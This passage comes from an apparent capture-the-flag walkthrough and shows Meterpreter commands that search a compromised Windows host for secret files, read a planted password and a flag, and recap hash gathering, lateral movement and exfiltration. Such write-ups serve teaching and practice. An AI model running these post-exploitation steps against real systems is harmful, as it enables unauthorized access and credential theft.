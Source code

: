 Now that we have found the path, we can answer the location of the file quiestion.

Now let's read the contents of the file:

```bash
meterpreter > cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt" (35 bytes)
My Twitter password is KDSvbsw3849!
```

## realsecret.txt file

We have the last two questions related to this `realsecret.txt` file. We will use a similar technique from above to do so:

```bash
meterpreter > search -f realsecret.txt
Found 1 result...
    c:\inetpub\wwwroot\realsecret.txt (34 bytes)
meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alive
```

# RECAP

We were able to leverage the creds and the IP information to create a meterpreter session. From there we were able to gather information about the system, hashes which we can leverage for other activities such as lateral movement, and accessed data which we are able to use further in the process as well as exfiltrate it.
